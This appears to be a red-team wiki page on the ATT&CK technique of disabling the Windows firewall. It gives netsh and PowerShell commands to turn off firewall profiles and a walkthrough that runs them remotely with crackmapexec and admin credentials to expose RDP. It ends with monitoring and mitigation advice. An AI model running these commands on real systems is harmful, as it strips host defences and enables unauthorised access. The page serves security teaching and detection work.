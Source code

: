 ```yaml
---
description: https://attack.mitre.org/techniques/T1562/004/
---
```


# Disable or Modify System Firewall

**ATT\&CK ID:** [T1562.004](https://attack.mitre.org/techniques/T1562/004/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may disable or modify system firewalls in order to bypass controls limiting network usage. Changes could be disabling the entire mechanism as well as adding, deleting, or modifying particular rules. This can be done numerous ways depending on the operating system, including via command-line, editing Windows Registry keys, and Windows Control Panel.

Modifying or disabling a system firewall may enable adversary C2 communications, lateral movement, and/or data exfiltration that would otherwise not be allowed.

\[[Source](https://attack.mitre.org/techniques/T1562/004/)]

## Techniques

### CMD

```bash
# Disable all profiles
netsh advfirewall set allprofiles state off

# Disable public profile
netsh advfirewall set publicprofile state off

# Disable domain profile
netsh advfirewall set domainprofile state off

# Disable current profile
netsh advfirewall set  currentprofile state off

# Enable all profiles
netsh advfirewall set allprofiles state on
```

### PowerShell

```powershell
# Disable all profiles
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

# Disable public profile
Set-NetFirewallProfile -Profile public -Enabled False

# Disable domain profile
Set-NetFirewallProfile -Profile domain -Enabled False

# Disable private profile
Set-NetFirewallProfile -Profile private -Enabled False

# Enable all profiles
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True
```

## Scenario

In the scenario below we have gained access to administrative credentials for the host 10.10.10.10. However, we are looking to gain `RDP` access.

Scanning port 3389 with `Nmap` reveals the port is filtered. This is because there is a firewall rule blocking inbound connections to 10.10.10.10.

![](<../../../../.gitbook/assets/image (72) (2).png>)

As we have administrative credentials we perform command execution with `crackmapexec`. We execute the following command to view the current firewall profiles on the target host.

```bash
crackmapexec smb '<IP>' -u '<User>' -p '<Password>' -d '<Domain>'  -X 'Get-NetFirewallProfile -Name Public,Domain,Private | Select Name,Enabled'
```

![](<../../../../.gitbook/assets/image (1451).png>)

Next, we execute the command below to turn off all available firewall profiles.

```bash
crackmapexec smb '<IP>' -u '<User>' -p '<Password>' -d '<Domain>'  -X 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False'
```

![](<../../../../.gitbook/assets/image (75) (2).png>)

Then check the current status of the profiles again.

```bash
crackmapexec smb '<IP>' -u '<User>' -p '<Password>' -d '<Domain>'  -X 'Get-NetFirewallProfile -Name Public,Domain,Private | Select Name,Enabled'
```

![](<../../../../.gitbook/assets/image (1241).png>)

Where we can then confirm we are now able to see the port 3389 is open for `RDP` access. We may now connect using a tool such as `xfreerdp`.

![](<../../../../.gitbook/assets/image (1332).png>)

## Mitigation

* Monitor for changes in the status of the system firewall such as Windows Security Auditing events 5025 (The Windows firewall service has been stopped) and 5034 (The Windows firewall driver was stopped).
* Monitor for changes made to windows Registry keys and/or values that adversaries might use to disable or modify System Firewall settings such as HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy.
* Monitor executed commands and arguments associated with disabling or the modification of system firewalls such as `netsh advfirewall set allprofiles state off`

## Further Reading

**Enable / disable firewall from command line:** [https://www.windows-commandline.com/enable-disable-firewall-command-line/](https://www.windows-commandline.com/enable-disable-firewall-command-line/)
